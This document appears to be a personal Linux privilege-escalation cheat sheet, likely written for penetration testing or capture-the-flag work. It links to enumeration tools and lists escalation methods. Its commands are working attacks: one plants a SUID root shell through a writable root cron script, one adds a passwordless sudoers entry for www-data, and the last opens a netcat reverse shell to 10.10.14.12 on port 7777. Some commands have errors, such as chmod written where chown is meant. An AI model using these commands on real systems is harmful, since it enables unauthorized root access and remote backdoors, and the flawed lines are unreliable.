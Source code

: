 # GTFOBin

https://gtfobins.github.io/

## LinEnum

https://github.com/rebootuser/LinEnum

## Restricted shell Bypass

https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf


Linux Privilege escalation
==========================

A typical Linux privilege escalation method is based on one of the following:

1. Exploiting services running as root
2. Exploiting SUID executables
3. Exploiting SUDO rights/user
4. Exploiting badly configured cron jobs
5. Exploiting users with "." in their path
6. Kernel Exploits

Kernel exploits are typically our last resort, as there is a risk that we crash the system in the process.

***1. Command to get bash shell from $***

$ python -c 'import pty; pty.spawn("/bin/bash");'  
user@machine:

## Double charcters

I'm guessing both terminals had stty echo, so you probably needed to Ctrl-Z and stty -echo on your local terminal and bg to get back to the remote shell.

**2. Identifcation methods**
1. Check su privileged files

2. Check cronjobs
cd /etc/cron* - Check all the folders

3. Check the programs avilable in the machine

which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/nul

**3. Using vulnerable cronjob running in root**

echo "cp /bin/dash /tmp/exploit; chmod u+s /tmp/exploit;chmod root:root /tmp/exploit">>/usr/local/sbin/cron-logrotate.sh

**4. Modifying sudoers file and provide nopasswd access for a low privileged user**

echo ‘chmod 777 /etc/sudoers && echo “www-data ALL=NOPASSWD: ALL” >> /etc/sudoers && chmod 440 /etc/sudoers’ > /tmp/update

**5. Command to writable directories in the restrictive shell**

find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;

**6 C program for priv esc

https://fuzzmymind.com/2019/05/29/suid-binary-exploit-a-primer/

**& modify file content 

```
echo "os.system('/bin/nc -e /bin/bash 10.10.14.12 7777')" >> /opt/tmp.py
```


